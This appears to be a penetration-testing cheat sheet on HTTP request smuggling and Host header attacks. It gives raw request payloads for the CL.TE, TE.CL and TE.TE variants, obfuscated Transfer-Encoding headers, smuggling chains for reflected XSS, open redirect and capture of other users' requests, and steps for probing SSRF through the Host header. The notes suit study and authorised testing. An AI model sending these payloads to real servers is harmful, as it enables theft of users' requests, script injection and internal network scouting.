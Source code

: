 # HTTP

## HTTP Smuggling

A smuggling vulnerability happens beacuse there are multiple ambiguous ways to define the length of an HTTP request the `Content-Length` header and the `Transfer-Encoding` header that is used to define the total length of a message split in chunked requests. Clients and servers may parse these headers differently and allow to include unexpected code in a HTTP request

Example of a chunked request

```
POST ... HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b    #start delimiter
<body>
0    #end delimiter
```

#### CL.TE Exploit

Front end uses `Content-Length` and back end uses `Transfer-Encoding`

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

#### TE.CL Exploit

Front end uses `Transfer-Encoding` and back end uses `Content-Length`

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8    #String length in HEX
SMUGGLED 
0
[\r\n\r\n]
```

#### TE.TE Exploit

Both the client and the server use `Transfer-Encoding` but one of them can be tricked to not parse the header by obfuscating it

```
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[\t]chunked
 Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

### Reflected XSS

Allows to easily target an HTTP header and body. When a user sends his request it will be appended to the malicious smuggled request and will trigger the XSS vulnerability without requiring interaction

```
POST / HTTP/1.1
Host: <target>
Content-Length: <len>
Transfer-Encoding: chunked

0

GET / HTTP/1.1
<header>: <XSS>
Foo: X
```

### Open redirect

Allows to redirect the user to an arbitrary site by overwriting the `Host` header

```
POST / HTTP/1.1
Host: <target>
Content-Length: <len>
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: <redirect to>
Foo: X
```

### Reflect a user's request as value of an argument

Allows to steal a HTTP request from a user and print it as the value of a parameter in a GET or POST request

```
GET / HTTP/1.1
Host: <target>
Transfer-Encoding: chunked
Content-Length: <len>

0

POST <req> HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: <len>
<req param>=
```

For instance if the target request is like `/save?username=usr&msg=text` it is possible to steal the next user's request with the following payload and navigating to a point in the site where the msg parameter is displayed

```
GET / HTTP/1.1
Host: <target>
Transfer-Encoding: chunked
Content-Length: <len>

0

POST <req> HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: <len>
/save?username=usr&msg=
```

## Host Header Attacks

The host header is used to inform balancers and front end server to where to redirect the user. By tampering this header it is possible to perform SSRF attacks. To find vulnerabilities in how the Host header is parsed by using the following steps

* Send an arbitrary host
* Check for host validation where only the url is validated and not the port `hostsite.com:evil`
* Try to send a request with an url as part of an accepted subdomain `evil-hostsite.com` or `evilhostsite.com`
* Duplicate the Host header
* Add indentation before or after the header such as tabs spaces and \n
* Sending the request to a full url instead of a relative one may lead the server to parse the header differently

### Header overwrite

It is possible to overwrite the value of Host by adding one on the following headers to the request

```
X-Forwarded-Host
X-Forwarded-Server
X-HTTP-Host-Override
Forwarded
```

### SSRF

Controlling the Host header allows to scout the internal network of the target machine in order to find other servers. To verifiy the vulnerability replace the Host value with the url of a server you control. If you receive a hit from the target machine or another one in the same network then the servers are vulnerable and you can use bruteforce or dictionary attacks to locate new machines. If the response is a redirect (3XX) then the machine with the given hostname or ip address exists

